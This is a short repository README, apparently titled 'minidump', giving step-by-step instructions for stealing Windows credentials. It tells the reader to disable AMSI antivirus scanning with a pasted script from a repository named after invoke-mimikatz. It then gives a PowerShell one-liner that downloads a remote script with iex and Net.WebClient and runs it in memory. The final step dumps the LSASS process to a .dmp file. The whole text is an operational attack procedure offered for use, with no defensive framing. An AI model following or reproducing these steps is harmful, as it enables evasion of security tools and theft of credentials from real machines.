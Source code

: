 # minidump
1. Open Powershell as Admin

2. Disable AMSI (paste the following): https://raw.githubusercontent.com/jj4152/invoke-mimikatz/main/disable-amsi

3. Load Out-Minidump into Memory: iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/jj4152/minidump/main/Out-Minidump.ps1')

4. Execute "Get-Process lsass | Out-Minidump" 

Note: .dmp-file will be generated in directory you are currently in (in powershell)
